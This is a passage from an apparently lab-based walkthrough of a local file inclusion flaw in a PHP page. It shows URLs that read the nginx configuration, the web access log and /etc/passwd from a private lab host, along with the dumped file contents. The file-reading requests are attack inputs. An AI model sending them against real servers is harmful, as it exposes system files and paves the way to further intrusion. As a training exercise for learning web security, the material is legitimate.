

3.3 Read the logs
Let’s see if we can find the log files. Remember the nmap scan? Because of that, we know that this server is nginx. Let’s see if we can read the configuration file for nginx.
a) In your brower go to http://192.168.12.59/thankyou.php?file=/etc/nginx/nginx.conf
In text:
user www-data;worker_processes 4;pid /run/nginx.pid;events { worker_connections 768; # multi_accept on;}http { ## # Basic Settings ## sendfile on; tcp_nopush on; tcp_nodelay on; keepalive_timeout 65; types_hash_max_size 2048; # server_tokens off; # server_names_hash_bucket_size 64; # server_name_in_redirect off; include /etc/nginx/mime.types; default_type application/octet-stream; ## # SSL Settings ## ssl_protocols TLSv1 TLSv1.1 TLSv1.2; # Dropping SSLv3, ref: POODLE ssl_prefer_server_ciphers on; ## # Logging Settings ## access_log /var/log/nginx/access.log; error_log /var/log/nginx/error.log; ## # Gzip Settings ## gzip on; gzip_disable "msie6"; # gzip_vary on; # gzip_proxied any; # gzip_comp_level 6; # gzip_buffers 16 8k; # gzip_http_version 1.1; # gzip_types text/plain text/css application/json application/javascript text/xml application/xml application/xml+rss text/javascript; ## # Virtual Host Configs ## include /etc/nginx/conf.d/*.conf; include /etc/nginx/sites-enabled/*;}#mail {# # See sample authentication script at:# # http://wiki.nginx.org/ImapAuthenticateWithApachePhpScript# # # auth_http localhost/auth.php;# # pop3_capabilities "TOP" "USER";# # imap_capabilities "IMAP4rev1" "UIDPLUS";# # server {# listen localhost:110;# protocol pop3;# proxy on;# }# # server {# listen localhost:143;# protocol imap;# proxy on;# }#}
Now we know where the access log file is. “/var/log/nginx/access.log”.
b) Go to your acces log file.
http://192.168.12.59/thankyou.php?file=/var/log/nginx/access.log

In text:
...
/thankyou.php?file=/var/log/nginx/access.log HTTP/1.1" 200 1864590 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:77.0) Gecko/20100101 Firefox/77.0"192.168.12.30 - - [12/Jun/2020:19:30:49 +1000] "GET /css/styles.css HTTP/1.1" 304 0 "http://192.168.12.59/thankyou.php?file=/var/log/nginx/access.log" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:77.0) Gecko/20100101 Firefox/77.0"192.168.12.30 - - [12/Jun/2020:19:33:24 +1000] "GET /thankyou.php?file=/etc/passwd HTTP/1.1" 200 986 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:77.0) Gecko/20100101 Firefox/77.0"192.168.12.30 - - [12/Jun/2020:19:33:24 +1000] "GET /css/styles.css HTTP/1.1" 304 0 "http://192.168.12.59/thankyou.php?file=/etc/passwd" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:77.0) Gecko/20100101 Firefox/77.0"192.168.12.30 - - [12/Jun/2020:19:33:27 +1000] "GET /thankyou.php?file=/etc/passwd HTTP/1.1" 200 986 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:77.0) Gecko/20100101 Firefox/77.0"192.168.12.30 - - [12/Jun/2020:19:33:27 +1000] "GET /css/styles.css HTTP/1.1" 304 0 "http://192.168.12.59/thankyou.php?file=/etc/passwd" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:77.0) Gecko/20100101 Firefox/77.0"192.168.12.30 - - [12/Jun/2020:19:33:34 +1000] "GET /thankyou.php?file=/var/log/nginx/access.log HTTP/1.1" 500 798 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:77.0) Gecko/20100101 Firefox/77.0"192.168.12.30 - - [12/Jun/2020:19:33:34 +1000] "GET /css/styles.css HTTP/1.1" 304 0 "http://192.168.12.59/thankyou.php?file=/var/log/nginx/access.log" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:77.0) Gecko/20100101 Firefox/77.0"
NOTICE:
If you get to this point and you can’t see the logs, try to reinstall the Virtual Machine and go to the page http://192.168.12.59/thankyou.php?file=/etc/passwd.
 Index
Index